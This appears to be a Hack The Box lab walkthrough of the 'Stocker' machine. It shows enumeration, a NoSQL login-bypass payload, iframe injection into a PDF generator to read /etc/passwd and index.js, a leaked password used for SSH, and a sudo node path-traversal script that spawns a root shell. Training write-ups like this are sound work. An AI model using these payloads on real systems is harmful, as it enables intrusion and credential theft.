# Stocker (HTB, Machine)

## Difficulty Level: Easy

## Enumeration

### Nmap

```
# Nmap 7.93 scan initiated Wed Jan 25 05:49:41 2023 as: nmap -A -oN nmap/stocker 10.10.11.196
Nmap scan report for stocker.htb (10.10.11.196)
Host is up (0.51s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3d12971d86bc161683608f4f06e6d54e (RSA)
|   256 7c4d1a7868ce1200df491037f9ad174f (ECDSA)
|_  256 dd978050a5bacd7d55e827ed28fdaa3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD
|_http-favicon: Unknown favicon MD5: 4EB67963EC58BC699F15F80BBE1D91CC
|_http-generator: Eleventy v2.0.0
|_http-title: Stock - Coming Soon!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 25 05:51:05 2023 -- 1 IP address (1 host up) scanned in 84.67 seconds
```

- Found a website is running on port **80** and a **SSH** service is running on port **22**

### Web Enumeration



### Directory Fuzzing, Using: Feroxbuster:

**command**:
```
feroxbuster -u http://stocker.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

**output**:
```
___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://stocker.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        7l       12w      178c http://stocker.htb/js => http://stocker.htb/js/
301      GET        7l       12w      178c http://stocker.htb/img => http://stocker.htb/img/
301      GET        7l       12w      178c http://stocker.htb/css => http://stocker.htb/css/
200      GET      321l     1360w    15463c http://stocker.htb/
301      GET        7l       12w      178c http://stocker.htb/fonts => http://stocker.htb/fonts/
[####################] - 2m    150000/150000  0s      found:5       errors:0
[####################] - 2m     30000/30000   184/s   http://stocker.htb/
[####################] - 2m     30000/30000   187/s   http://stocker.htb/js/
[####################] - 2m     30000/30000   187/s   http://stocker.htb/img/
[####################] - 2m     30000/30000   187/s   http://stocker.htb/css/
[####################] - 2m     30000/30000   187/s   http://stocker.htb/fonts/
```

- From directory searching we found nothing suspicious.

### Subdomain Enumeration, Using ffuf:

**command**:
```
ffuf -w /usr/share/amass/wordlists/subdomains.lst -c -u http://stocker.htb -H "Host: FUZZ.stocker.htb" -mc all > ffuf/ffuf.txt
```



- From **ffuf** we found a subdomain **dev**



- And by visiting the page, we found a login page there!

### NoSQL Injection

- Intercept the traffic of the login page with burpsuite and then try this json NoSQL Injection;

👉[**Reference**](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/nosql-injection.md#basic-authentication-bypass)👈

```
{"username": {"$ne": null}, "password": {"$ne": null} }
```



- We're redirected to a page **/stocks**, it might indicate that we are logged-in.



- On the Dashboard, we have the facility to add product to the cart and sumbit the cart details to target server.

- Then it'll generate the PDF for the added items mentioned in the cart.





- Downloading and Checking the PDF:

  - File Type:
  
  ```
  file pdfhash.pdf
  ```
  - **Exiftool**

  ```
  exiftool pdfhash.pdf
  ```



- There is nothing useful we found.

### Trying XSS

- From intercepting the **submit** request using Burp Proxy we found that the cart items are transferring in the JSON format.



- Trying XSS within the JSON data.

```
{
  "basket": [
    {
      "_id": "638f116eeb060210cbd83a8f",
      "title": "Bin <h1>TestOne</h1>",
      "description": "It's a rubbish bin.",
      "image": "bin.jpg",
      "price": "76 <h1>TestOne</h1>",
      "currentStock": "15 <h1>Test</h1>",
      "__v": 0,
      "amount": 1
    }
  ]
}
```

- And this time the data in the PDF is altered through our XSS test script.



Let's try to fetch some useful information from the target:

- Fetching **/etc/passwd**

```
{
  "basket": [
    {
      "_id": "638f116eeb060210cbd83a8f",
      "title": "Bin <iframe src=file:///etc/passwd height=800px width=500px></iframe>",
      "description": "It's a rubbish bin.",
      "image": "bin.jpg",
      "price": "76",
      "currentStock": "15",
      "__v": 0,
      "amount": 1
    }
  ]
}
```

- Modified request:



- And the response we get:



- From the above /etc/passwd file we found a user called **angoose**
- Let's try to fetch some more interesting files...

### fetching Index.js file

- Modified Request in Burp:

```
{
  "basket": [
    {
      "_id": "638f116eeb060210cbd83a8f",
      "title": "Bin <iframe src=file:///var/www/dev/index.js height=800px width=500px></iframe>",
      "description": "It's a rubbish bin.",
      "image": "bin.jpg",
      "price": "76",
      "currentStock": "15",
      "__v": 0,
      "amount": 1
    }
  ]
}
```



- We successfully got **index.js** in the response and there is a password: **IHeardPassphrasesArePrettySecure**, it's more likely the password for the user **angoose**.

### Initial foothold

- Let's try SSH with this:



- We're logged in as **angoose**!

### Target Enumeration

- Checking SUDO privileges

```
sudo -l
```



- We can execute **node** as a superuser and the execution of scripts should be in **/usr/local/scripts** folder.

### Privilege Escalation

- Let's create a script to execute bin bash, and run it with node:

**script:**

```
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```

- save it as somescript.js in the **angoose** home directory and then run it like this:

```
sudo /usr/bin/node /usr/local/script/../../../home/angoose/somescript.js
```



**DONE**
